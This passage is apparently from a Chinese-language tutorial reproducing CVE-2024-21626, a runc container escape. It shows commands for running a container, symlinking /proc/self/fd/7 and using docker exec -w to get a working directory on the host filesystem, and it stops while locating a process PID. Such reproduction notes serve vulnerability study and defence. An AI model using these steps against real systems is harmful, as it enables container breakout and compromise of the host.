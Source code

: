    ![](.\攻击方式1-3.png)



### 方法二：利用`docker exec`

1. 运行容器。

   ```shell
   $ sudo docker run --name cve-2024-21626 --rm -it ubuntu:latest
   ```

2. 创建一个symlink。

   ```shell
   # ln -sf /proc/self/fd/7/foo /foo
   ```

   为 `/proc/self/fd/<fd>` 创建一个symlink，\<fd\>表示在主机文件系统中打开 `/sys/fs/cgroup` 时的文件描述符。当运行一个容器时，`<fd>`通常是7或8。

3. 执行 `docker exec` 命令，带 `-w` 选项，从而在容器中执行 `sleep` 命令。

   ```shell
   $ sudo docker exec -it -w /foo cve-2024-21626 sleep 300
   ```

   通过-w选项设置上一步创建的symlink为执行指令的目录。

4. 在容器中找到sleep指令对应的PID。

   ```shell
   # ls -F /proc
   ```

   这里为20。
